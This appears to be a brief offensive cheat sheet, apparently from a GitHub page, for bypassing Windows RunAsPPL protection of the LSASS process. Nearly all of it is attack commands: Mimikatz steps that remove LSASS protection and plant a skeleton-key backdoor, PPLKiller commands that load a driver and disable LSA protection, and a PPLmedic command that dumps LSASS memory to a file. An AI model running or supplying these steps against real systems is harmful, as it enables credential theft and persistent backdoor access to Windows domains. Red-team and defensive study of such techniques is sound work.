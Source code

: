 # RunAsPPL Bypass

### 1) Check if RunAsPPL is enabled in the registry.

    HKLM\SYSTEM\CurrentControlSet\Control\Lsa

### 2) Mimikatz

    mimikatz # privilege::debug
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    mimikatz # misc::skeleton
    mimikatz # !-

### If Mimikatz can't be used, PPLKiller is an alternative 

Link: https://github.com/RedCursorSecurityConsulting/PPLKiller

    ./PPLKiller.exe /installDriver
    ./PPLKiller.exe /disableLSAProtection
    ./PPLKiller.exe /uninstallDriver

OR PPLMedic

Link: https://github.com/itm4n/PPLmedic

    ./PPLmedic.exe dump <lsass_PID> <C:\path\to\dump.dmp>

 
